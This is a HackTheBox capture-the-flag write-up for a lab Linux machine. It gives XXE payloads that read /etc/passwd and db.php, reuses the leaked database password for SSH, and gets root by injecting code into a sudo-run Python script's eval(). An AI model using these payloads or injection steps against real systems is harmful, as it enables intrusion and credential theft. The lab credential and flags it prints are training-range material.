


## Recon

### nmap

```
# nmap -sV -O 10.10.11.100
```


> Result : 

1. SSH (port 22)
2. HTTP (port 80) - Apache https 2.4.41
3. OS : Linux Ubuntu
### Gobuster 

> enumlate the web path 

```
# gobuster dir -u 10.10.11.100 -w /usr/ahare/wordlist/dirb/common.txt
```


> The result
1. /assets
2. /css
3. /index.php
4. /js
5. /resoutces
6. /server-status

> Find more information with above result 


> In the reources directory, we find many js file and a README text
> Read the README text, it seems a task checklist, and it shows up there is some task haven't been done yet . 


> Besides above information , we find the web has a page named portal.php
> And it still in developing, but it provdies a test site


> In this test site, it provides 4 columns which looks like report a bug 


> Try to insert some data, the response show the following description 

<p>
If DB were ready, would have added: 
</p>

> It seems the test page also has Database Connection.


> But there is all the information I got so far, I just stuck in this page and try to find out the vulnerability 
> Finally with Burp Suit , I found the request will encode the data , post to the php page name tracker with random string and will decode it in server 


> Try to decode the data, the request content will wrapped to xml format


## Exploitation 

> So, we can figure out that it might be a XXE vulnerability
> Prove it with simple payload 


```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY example "tet" > ]>
		<bugreport>
		<title>test</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>&example;</reward>
		</bugreport>
```


> The string 'tet' just show up in the Reward column
> I think the XXE attack success to inject word.
> So, the next thing is think about what's the path worth to disclosure.
> We know the site open 2 service, one is web service the other is ssh. 
> If we want to get the flag, I think we need to login by ssh, so we need to find out the credential 
> Then we can first disclose the ```/etc/passwd``` to get more clues.


```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [<!ENTITY example SYSTEM 'file:////etc/passwd'> ]>
		<bugreport>
		<title>test</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>&example;</reward>
		</bugreport>
```


> So the result show us that there are two account login with /bin/bash execute .
- root
- development

> But now we still miss the key material - password
> So we stuck in here again , and I just go to find out the write up . 
> I found a interesting thing is the write up show the gobuster result is a little different with mine.
> So I used his command to find the directory again. The different point is the command specify the file extention to php

```
# gobuster dir -u 10.10.11.100 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 30 -x php
```


> And we find another php file named ```db.php```, so we access it .


> it seems the page is empty , but the request is 200 ok , so I think it doesn't include the static part in this file, maybe it just use to configure the db connection 
> so we use XXE attack to read this file. 


```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
		<bugreport>
		<title>test</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>&example;</reward>
		</bugreport>
        
```


```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

> Then we get the db credential.
> Try this password to ssh 
### ssh login 

```
development / m19RoAU0hP41A1sTsq6K
```


> It success to login ...
> User flag 

```
bab2eb796bbb787083cc88d81f14094b
```


## Privileged Escalation 

> Gathering other information 
> In development user's directory, there is a file named contract.txt
> Check the Content, it shows the information about the user have the permission to do some test because a data wipe out event.


> check the sudo list 

```
# sudo -l 
```


    
    we can find that 
    the development has root permission to execute the python3.8 
    and a python script named ticketValidator without password
    so let's dig into the ticketValidator, and find how to break it.
    
>  Python Script (```ticketValidator.py```)

```
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()

```
    This is a script that used to validate the ticket file.


    In the first function (load_file),
    It will accept one parameter that is a file 
    and it will check the file extension, it must be .md 


    
    The Second function is used to evaluate the ticket content,
    Input is a ticketFile, this function will read this file line by line
    Then it will execute the following check :
    1. Check first line whether is start with '# Skytrain Inc'
    2. Check Second line whehter is start with '## Ticket to'
    3. Keep Checking the start with '__Ticket Code:__', 
    if yes, it will assign the corrent line number + 1 to 'code line'
    4. Check code line exist or not
    and check the code line value is equal to current line number or not
    5. Then check the line start with '**'
    if yes, replace it with blank
    and split it with '+' and take the first part of split
    assign it into 'ticketCode'.
    6. According to the step 5, I think the md file will include an add expression. 
    7. Continue From step 5. Using the ticketCode value to mod with 7 
    and check the value is 4 or not
    8. After checking, the next code is an important one in here,
    it used eval() to execute the expression , 
    but eval() is a dangerous function in python
    If the input for eval() function is a String, it will take it as 'code'.
    
- So if we append a payload(a reverse shell or a escalation command) after the expression, and let it become the input of eval, what will happen ?


> Let's create a md file with the shell payload 
> payload 

```
shell.md
```

``` 
# Skytrain Inc
## Ticket to hack
__Ticket Code:__
**102+10 == 112 and __import__("os").system("/bin/bash")
```


#### Send this payload to victim 

> Create simple HTTP Server

```
# python -m SimpleHTTPServer
```


> Download from the HTTP Server

```
# wget http://10.10.16.6/shell2.md
```


#### Privileged Escalation 

> Execute the ticketValidator.py and enter the shell md file

```
#sudo python3.8 /opt/skytrain_inc/ticketValidator.py
```


> The shell will be execute and we get the root permission
> Get root flag

```
b3b1566bcc4048880268f2270df9d308
```
## Reference 

- [Bounty Hunter Write up]
    - Link missing 
- [XXE attack _ burp suit](https://portswigger.net/web-security/xxe)
- [XXE OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
- [XXE payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
- [Python Reverse Shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Python simplehttpserver](https://blog.gtwang.org/web-development/python-simplehttpserver-web-server/)
- [Wget](https://gm0621.pixnet.net/blog/post/347888080-wget-%E6%8C%87%E4%BB%A4%28%E4%B8%8B%E8%BC%89%E6%AA%94%E6%A1%88%29---%E5%9F%BA%E6%9C%AC%E7%94%A8%E6%B3%95)

###### tags: `HackTheBox` `linux`